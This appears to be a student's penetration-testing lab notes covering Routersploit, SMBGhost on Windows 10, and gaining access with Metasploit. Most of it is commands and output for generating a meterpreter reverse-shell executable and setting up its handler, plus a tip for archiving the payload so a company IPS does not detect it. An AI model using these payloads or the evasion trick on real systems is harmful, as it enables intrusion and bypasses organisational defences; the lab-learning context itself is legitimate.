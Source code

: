 ### Bluekeep

## Routersploit

```
https://github.com/threat9/routersploit.git
<install proc>
python3 rsf.py
```

get routeur ip :
msf6 exploit(windows/smb/eternalblue_doublepulsar) > netstat -nr

# Section 9 : Win10 exploit, SMBGhost
- get win 10 old iso with [RUFUS](https://rufus.ie)
- find CVE and exploit it with custom script (google it, lot of result in github repo)

# Section 10 : Gaining access
## Generate payload with Msfvenom
```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f exe -o shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
copy payload to win8.1 or win10 test VM :

need to create an archive so my company IPS doesn't delete the file as it scan and detect it as a payload :
┌──(kali㉿kali)-[~]
└─$ tar -czvf tmp.tar.gz shell.tmp 


```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate